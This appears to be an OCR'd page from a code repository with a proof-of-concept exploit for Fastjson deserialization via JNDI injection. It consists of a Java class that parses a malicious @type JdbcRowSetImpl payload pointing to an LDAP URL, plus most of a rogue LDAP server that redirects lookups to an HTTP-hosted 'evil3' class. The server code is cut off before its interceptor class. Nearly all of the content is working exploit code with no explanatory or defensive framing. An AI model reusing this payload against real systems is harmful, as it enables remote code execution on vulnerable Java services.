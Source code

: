 POC：

```java
import com.alibaba.fastjson.JSON;


public class JNDI_Test {
    public static void main(String[] args) throws Exception {
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:7777/evil3\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
}

```

LdapServer.Java

```java
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class LdapServer {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:9999/#evil3"};
        int port = 7777;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }
```